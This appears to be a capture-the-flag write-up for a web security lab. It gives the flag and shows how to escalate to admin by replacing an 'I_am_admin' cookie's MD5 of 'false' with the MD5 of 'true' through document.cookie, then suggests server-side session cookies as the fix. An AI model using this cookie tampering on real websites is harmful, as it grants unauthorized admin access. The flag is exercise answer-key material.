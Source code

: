 # ADMIN COOKIE

## The flag

```
THE FLAG IS : df2eb4ba34ed059a1e3e89ff4dfc13445f104a1a52295214def1c4fb1693a5c3
```

## How to find it ?

On the page http://{IP_ADDRESS}/

See cookie with document.cookie (= "I_am_admin=68934a3e9455fa72420237eb05902327")
68934a3e9455fa72420237eb05902327 -> md5 -> false
true -> md5 -> b326b5062b2f0e69046810717534cb09

```
document.cookie = "I_am_admin=b326b5062b2f0e69046810717534cb09"
```
Refresh page

## How to use it ?

Become admin of the website

## How to avoid it ?

Use session cookie so it will be only editable in the back